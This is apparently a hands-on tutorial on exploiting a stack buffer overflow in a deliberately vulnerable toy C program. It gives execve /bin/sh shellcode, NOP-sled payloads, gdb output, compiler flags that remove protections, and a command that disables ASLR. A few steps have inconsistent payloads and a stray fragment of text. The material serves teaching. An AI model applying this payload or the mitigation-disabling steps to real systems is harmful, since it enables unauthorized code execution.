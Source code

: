 ### Smashing the stack the old way ###

Lets begin with a inocent program
```
#include<stdio.h>
#include<string.h>

int main(int argc, char** argv) {
    char buffer[500];
    strcpy(buffer, argv[1]);
    return 0;
}

```

Lets compile it
```
gcc vuln.c -o vuln

```

See nothing happens
```
$ ./vuln hello
```

Now if we send more than what we defined in our buffer
```
$ ./vuln $(python -c 'print "\x41" * 524 ')
Segmentation fault
```

This means that we overrun the buffer

Lets retry this in the GDB debuger:

```
$ gdb vuln
(gdb) run $(python -c 'print "\x41" * 524 ')
Program received signal SIGSEGV, Segmentation fault.
0x00007f0041414141 in ?? ()
```

Now lets check the registers

```
(gdb) info reg
rip            0x7f0041414141   0x7f0041414141
```
This means that now we control what the rip register point to.
This is our powerfull weapon beacuse this is the vulnerability itself,
becuse if we can control rip we can point it to our malicious code.

Lets Introduce the nop-sled:

The NOOP instruction tells the CPU to do nothing and move to the next instruction.
The nop sled is like: pincture boba fet falling into the sarlac pit.
Anywhere we land into the middle of a nop-sled we end up in the same place.
And in the end of the nop-sled we are going to put our shellcode.
Then our main idea is to put a big enought nop-sled that takes almost all the buffer up to almost the address where rip is.

Again we run our inocent program with a bunch of nops
```
(gdb) run $(python -c 'print "\x41" * 524 ')
Program received signal SIGSEGV, Segmentation fault.
0x00007f0090909090 in ?? ()
```
The same happens but the rip address not points to 0x00007f0090909090

We need to add to the end of the nop-sled our shellcode **"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"**

This is a generic linux-x86_64 execve /bin/sh shellcode

Its asm code is:
```
   0:   48 31 f6                xor    %rsi,%rsi
   3:   56                      push   %rsi
   4:   48 bf 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rdi
   b:   2f 73 68 
   e:   57                      push   %rdi
   f:   54                      push   %rsp
  10:   5f                      pop    %rdi
  11:   b0 3b                   mov    $0x3b,%al
  13:   99                      cltd   
  14:   0f 05                   syscall 
  16:   0a                      .byte 0x
```

Appending it and executing our exploit again:
```
(gdb) run $(python -c 'print "\x41" * 524 + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  ')
Program received signal SIGSEGV, Segmentation fault.
0x0000555555555173 in main ()
```
As we can see the resulting address 0x0000555555555173 is not even in the stack range
we can check this with:

```
(gdb) info proc mappings
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555555000     0x555555556000     0x1000     0x1000 /home/dclavijo/stack_smashing/vuln
      0x7ffff7f87000     0x7ffff7f8a000     0x3000   0x1bb000 /lib/x86_64-linux-gnu/libc-2.30.so
      0x7ffff7fce000     0x7ffff7fd2000     0x4000        0x0 [vvar]
      0x7ffff7fd2000     0x7ffff7fd4000     0x2000        0x0 [vdso]
      0x7ffff7fd4000     0x7ffff7fd5000     0x1000        0x0 /lib/x86_64-linux-gnu/ld-2.30.so
      .
      .
      .
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x28000 /lib/x86_64-linux-gnu/ld-2.30.so
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]

```
Our stack is in the region of 0x7ffffffde000     0x7ffffffff000.
this means that our nop-sled will need to covert all this region and our rip address will need to point to some place in this region.
lets say: 0x7fffffffdead
We also need to substract the payload from the nop sled, the payload is 23 bytes so 524-23

Lets hit it again:
```
(gdb) run $(python -c 'print "\x41" * (524-23) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"  ')
Program received signal SIGSEGV, Segmentation fault.
0x00007fff00050f99 in ?? ()
```
We are getting close:

Fur last we need to add our rip address that is going to be overwriten:
ived signal SIGSEGV, Segmentation fault.

witch is **0x7fffffffdead** and in the x86_64 machine endianess:
We are going to add it more than one time because we are overwriting registers in ram so we dont know where exactly they are we only kknow that we need to be aligned in order for it to work. And we need to substract it from our nop-sled to not overshoot.

Lets try:
```
(gdb) run $(python -c 'print "\x41" * (524-23-30) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
```
Program received signal SIGSEGV, Segmentation fault.
0xffffffdead050f99 in ?? ()

We got very close:

**0xffffffdead050f99** is not the address we wanted to **0x7fffffffdead**

We need to align our exploit to the machine registers in ram 
A +2 will suffice

```
(gdb) run $(python -c 'print "\x41" * (524-23-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
```

Voila, we landed into the mouth of the sarlac, but why didnt our exploit worked at all?

```
(gdb) run $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdead in ?? ()
```

But why didnt our exploit worked at all?

Lets inspect our RIP or (return instruction pointer):

```
0x00007fffffffdead in ?? ()
(gdb) x/10x 0x00007fffffffdead
0x7fffffffdead: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffdebd: 0x90909090  0x90909090  0x90909090  0x90909090
0x7fffffffdecd: 0x90909090  0x90909090
```

We can seed that effectively we landed in the middle of our nop-sled but nothing happened.
This is beacuse newer versions of gcc and linux by default set the execution bit of the stack page to disabled.
So we need to recompile again our inocent code disabling the stack execution protection.

```
gcc -z execstack  -g -fno-inline -fno-stack-protector -fno-pie -O0  vuln.c -o vuln
```

Lets hit it one more time
```
gdb vuln
(gdb) run $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
$
```
Holy shiet, we have our first shell executed from a an expoit!!!

Lets try one more thing, lets execute it outside gdb:

```
./vuln $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
Segmentation fault
```
WTF? why didn't work?
Newer versions of linux include ASLR or Address space layout randomization.
ASLR is a technique of address randomization witch re arranges the internal mappings of the sections of a process memory.
Our exploit didn't work beacuse we are asumming our program stack is going to be fixed in the range **0x7ffffffde000-0x7ffffffff000** and ASLR efectively prevents it to work beacuse in linux is enabled by defaut.
But we can disable it momentarily

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

And for last time:
```
./vuln $(python -c 'print "\x90" * (524-22-30+2) + "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05" + "\x7f\xff\xff\xff\xde\xad"[::-1] * 5  ')
$
```

We got our exploit working.


References

* https://en.wikipedia.org/wiki/NOP_slide
* https://en.wikipedia.org/wiki/Address_space_layout_randomization

